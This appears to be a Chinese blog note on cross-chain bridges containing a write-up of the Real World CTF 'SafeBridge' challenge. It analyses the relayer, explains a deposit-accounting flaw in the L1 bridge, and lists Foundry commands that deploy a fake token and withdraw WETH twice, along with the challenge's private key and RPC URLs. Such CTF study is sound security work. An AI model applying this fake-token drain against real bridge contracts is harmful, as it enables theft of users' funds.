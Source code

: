 ### 跨链桥

两个或多个区块链之间移动数字资产和信息

#### 种类

1.burn/mint
2.stake/mint
3.stake/unstake

#### others 

之前在rwctf上有道[safe_bridge](https://github.com/chaitin/Real-World-CTF-6th-Challenges/tree/main/SafeBridge)
自己写了一个wp 顺便也放这了

``` markdown

### relayer分析

relayer.py

workers分别在l1_messenger和l2_messenger上运行，每秒检查src事件，并在目标上调用RelayMessage

```python
def _relayer_worker(
    self, src_web3: Web3, src_messenger: Contract, dst_messenger: Contract
):
    _src_chain_id = src_web3.eth.chain_id
    _last_processed_block_number = 0

    while True:
        try:
            latest_block_number = src_web3.eth.block_number
            if _last_processed_block_number > latest_block_number:
                _last_processed_block_number = latest_block_number

            print(
                f"chain {_src_chain_id} syncing {_last_processed_block_number + 1} {latest_block_number}"
            )
            for i in range(
                _last_processed_block_number + 1, latest_block_number + 1
            ):
                _last_processed_block_number = i
                logs = src_messenger.events.SentMessage().get_logs(
                    fromBlock=i, toBlock=i
                )
                for log in logs:
                    print(f"chain {_src_chain_id} got log {src_web3.to_json(log)}")
                    try:
                        tx_hash = dst_messenger.functions.relayMessage(
                            log.args["target"],
                            log.args["sender"],
                            log.args["message"],
                            log.args["messageNonce"],
                        ).transact()

                        dst_messenger.w3.eth.wait_for_transaction_receipt(tx_hash)
                        print(
                            f"chain {_src_chain_id} relay message hash: {tx_hash.hex()} src block number: {i}"
                        )
                        time.sleep(1)
                    except Exception as e:
                        print(e)
        except:
            traceback.print_exc()
            pass
        finally:
            time.sleep(1)
```





### 流程分析

![img](https://raw.githubusercontent.com/Kaiziron/real-world-ctf-6th-writeups/main/graph.png)

#### Normal Case

1. L1 -> L2 (Deposit WETH)	WETH : WETH

   L1 Mapping:  [L1WETH] [L2WETH] += 2

   L2 Mapping:  [L1WETH] [L2WETH] += 2

2. L2 -> L1 (Withdrawal WETH)

   L1 Mapping: [L1WETH] [L2WETH] -= 2

   L2 Mapping: [L1WETH] [L2WETH] -= 2

#### Attack Case

1. L1 -> L2 (Deposit WETH)	WETH : Fake Coin

   L1 Mapping: [L1WETH] [L2FAKE] += 2

   L2 Mapping: [L1WETH] [L2WETH] += 2

##### Operate:

deposits[L1_WETH] [L2_WETH] -= 2
deposits[L1_WETH] [L2_WETH] -= 2

##### Actual Result

2. L2 -> L1 (Withdrawal WETH)

   L1 Mapping：[L1_WETH] [FAKE] = 2
   L1 Mapping：[L1WETH] [L2WETH] = 0
   L2 Mapping：[L1WETH] [L2WETH] = 0

main issue

```solidity
 deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;
```



```solidity
	function _initiateERC20Deposit(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
        internal
{
    IERC20(_l1Token).safeTransferFrom(_from, address(this), _amount);

    bytes memory message;
    if (_l1Token == weth) {
        message = abi.encodeWithSelector(
            IL2ERC20Bridge.finalizeDeposit.selector, address(0), Lib_PredeployAddresses.L2_WETH, _from, _to, _amount
        );
    } else {
        message =
            abi.encodeWithSelector(IL2ERC20Bridge.finalizeDeposit.selector, _l1Token, _l2Token, _from, _to, _amount);
    }

    sendCrossDomainMessage(l2TokenBridge, message);
    deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;

    emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
}
```



Foundry cast 命令

```solidity
RPCL1="http://47.251.56.125:8545/DGmkZgdXKHZWhlzOurJlcGte/l1"
RPCL2="http://47.251.56.125:8545/DGmkZgdXKHZWhlzOurJlcGte/l2"
KEY=0x15a1e7b242c99889c96a134b0bcc3270e97cdd47b1861285d9f5041cee469f32
CHALLENGE=0xE12c45392Ec952bc570b1AfB79dc1901490993B1
BRIDGEL2=0x420000000000000000000000000000000000baBe
WETHL2=0xDeadDeAddeAddEAddeadDEaDDEAdDeaDDeAD0000

// Get WETH
cast call --rpc-url $RPCL1 $CHALLENGE "WETH()(address)"
WETHL1=0x1eaf88837a01eD24511a23500F15a3E1Ea70207E

// Get L1BRIDGE
cast call --rpc-url $RPCL1 $CHALLENGE "BRIDGE()(address)"
BRIDGEL1=0x3FF9CA7474cDC867A9927b4C47F81da199CA327B

// Deposit 2 eth
cast send --rpc-url $RPCL1 --value 2ether --private-key $KEY $WETHL1 "deposit()"

// Approve bridge for WETH
cast send --rpc-url $RPCL1 --private-key $KEY $WETHL1 "approve(address,uint256)" $BRIDGEL1 2ether

// Deploy ScamCoin
forge create --rpc-url $RPCL2 --private-key $KEY src/ScamToken.sol:ScamToken --constructor-args $WETHL1

// Save our Scamcoin
SCAM=0x29e69e538145299eaF0F476B6d6A53BFEa341E2e

// Deposit L1WETH to SCAM
cast send --rpc-url $RPCL1 --private-key $KEY $BRIDGEL1 "depositERC20(address,address,uint256)" $WETHL1 $SCAM 2ether

// Deposit 2 eth of WETH
cast send --rpc-url $RPCL2 --private-key $KEY $BRIDGEL2 "withdraw(address,uint256)" $WETHL2 2ether

// Deposit 2 eth of scam
cast send --rpc-url $RPCL2 --private-key $KEY $BRIDGEL2 "withdraw(address,uint256)" $SCAM 2ether
```

```